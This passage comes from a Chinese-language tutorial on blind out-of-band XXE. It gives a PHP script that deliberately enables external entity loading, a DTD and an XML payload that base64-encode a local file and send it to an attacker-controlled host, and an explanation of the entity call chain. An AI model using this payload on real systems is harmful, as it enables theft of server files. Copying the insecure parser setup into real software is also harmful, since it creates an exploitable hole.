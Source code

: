    但是，你想想也知道，本身人家服务器上的 XML 就不是输出用的，一般都是用于配置或者在某些极端情况下利用其他漏洞能恰好实例化解析 XML 的类，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法——外带

   ### **新的解决方法**

   想要外带就必须能发起请求，那么什么地方能发起请求呢？ 很明显就是我们的外部实体定义的时候，其实光发起请求还不行，我们还得能把我们的数据传出去，而我们的数据本身也是一个对外的请求，也就是说，我们需要在请求中引用另一次请求的结果，分析下来只有我们的参数实体能做到了(并且根据规范，我们必须在一个 DTD 文件中才能完成“请求中引用另一次请求的结果”的要求)

   ### **实验二：无回显读取本地敏感文件(Blind OOB XXE)**

   **xml.php**

   ```php
   <?php
   
   libxml_disable_entity_loader (false);
   $xmlfile = file_get_contents('php://input');
   $dom = new DOMDocument();
   $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
   ?>
   ```

   **test.dtd**

   ```dtd
   <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
   <!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:9999?p=%file;'>">
   ```

   **payload：**

   ```xml
   <!DOCTYPE convert [ 
   <!ENTITY % remote SYSTEM "http://ip/test.dtd">
   %remote;%int;%send;
   ]>
   ```

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/XXE%20%E6%97%A0%E5%9B%9E%E6%98%BE%20payload.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/XXE%20%E6%97%A0%E5%9B%9E%E6%98%BE%20payload.png)

   **结果如下：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%8E%A5%E6%94%B6.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%8E%A5%E6%94%B6.png)

   我们清楚第看到服务器端接收到了我们用 base64 编码后的敏感文件信息(编码也是为了不破坏原本的XML语法)，不编码会报错。

   **整个调用过程：**

   我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `&#37;`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。

   ### **新的思考：**
